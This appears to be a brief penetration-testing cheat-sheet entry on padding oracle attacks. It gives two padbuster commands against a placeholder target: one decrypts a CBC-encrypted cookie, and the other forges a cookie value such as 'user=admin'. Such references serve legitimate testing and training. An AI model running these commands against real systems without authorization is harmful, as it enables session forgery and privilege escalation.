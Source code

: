 ```yaml
---
title: "Padding Oracle"
date: 2024-6-27
tags: ["Encryption", "Cryptography", "Web Exploitation", "Padding Oracle", "Padbuster", "Aes", "Cbc", "Cipher"]
---
```


### Tools

{{< tab set1 tab1 >}}padbuster{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# 8 or 16     : block size
# encoding 0  : base64
padbuster http://<TARGET>/index.php <COOKIE_VALUE> 8 -cookies <COOKIE_NAME>=<COOKIE_VALUE> -encoding 0
```

```console
# Forge cookie value, e.g. user=admin
padbuster http://<TARGET>/index.php <COOKIE_VALUE> 8 -cookies <COOKIE_NAME>=<COOKIE_VALUE> -encoding 0 -plaintext user=admin
```

{{< /tabcontent >}}

<small>*Ref: [Download padbuster](https://github.com/AonCyberLabs/PadBuster)*</small>

